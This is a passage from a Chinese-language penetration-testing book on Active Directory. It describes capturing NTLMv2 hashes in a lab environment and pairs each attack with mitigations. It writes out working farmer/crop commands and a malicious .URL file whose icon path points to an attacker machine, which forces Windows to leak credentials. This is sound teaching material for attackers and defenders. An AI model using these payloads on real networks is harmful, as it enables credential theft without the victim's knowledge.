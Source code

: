 图 4.4 – 捕获 NTLMv2 响应

为了模拟这一活动，实验室作者在`winterfell`上创建了一个计划任务，用户`eddard.stark`尝试通过带有拼写错误的 DNS 名称通过 SMB 连接到服务器。由于 DNS 服务器无法解析该名称，广播协议被触发，我们捕获到了 NTLMv2 响应。

为了减少这种捕获的可能性，理想情况下，我们需要停止使用 NTLM。如果无法做到这一点（这通常是情况），应在网络层面应用强密码策略并严格加固。其思路是禁用所有不必要的多播协议和 NTLMv1（在组策略中，将 `LAN Manager` 设置为 **仅发送 NTLMv2 响应。拒绝 LM 和 NTLM**）。我们将在下一章提供有关减轻中继攻击的建议。

但是，如果这些网络协议被禁用且 MITM 实际上不可行怎么办？我们可以通过几种方式强制客户端进行身份验证。最近，*MDSec*[9] 发布了一些有趣的研究。我们可以将某些类型的文件放置在可写共享文件夹中，Windows 会自动进行身份验证并将 NTLM 响应发送到远程机器：`SCF`、`URL`、`library-ms` 和 `searchConnector-ms`。一个重要的说明是，攻击者的机器应该位于本地内联网区域内，这意味着可以通过 UNC 路径建立网络连接。该研究的思路是使用启用 WebDAV 的 HTTP 服务器来收集哈希，这被称为 `farmer`，而用于创建文件的工具被称为 `crop`。以下两个命令将捕获哈希：

```
farmer.exe 8888 120
crop.exe \\castelblack\public legit.url \\winterfell@8888\legit.ico
```

我们还可以手动创建一个 .URL 文件。其原理是我们将一个环境变量放入文件中，这样受害者机器上的资源管理器在查看文件夹时，会在发送请求之前主动查找该变量，从而有效地连接到我们的文件共享，无需任何用户交互。这种行为使我们能够通过 Responder 捕获 NTLMv2 响应。该 .URL 文件的内容可能如下所示：

```
[InternetShortcut]
URL=any
WorkingDirectory=any
IconFile=\\192.168.56.100\%USERNAME%.icon
IconIndex=1
```

如下所示，`jon.snow` 打开一个公开共享的文件夹时，在 Responder 中可以看到结果：

![](img/B18964_04_05.jpg)

图 4.5 – 打开公共共享文件夹并使用 .URL 文件后捕获的 NTLMv2 响应

注意

盗取 NTLMv2 响应的其他有趣位置在 *Osanda* *Malith* 的博文中有详细描述：[`osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/`](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)。

为了防止之前提到的文件类型强制身份验证，我们需要通过组策略设置关闭网络文件夹的缩略图显示。接下来，我们将介绍另一种强大的技术，用于捕获哈希，如果之前的所有尝试都未成功的话。

# 强制身份验证

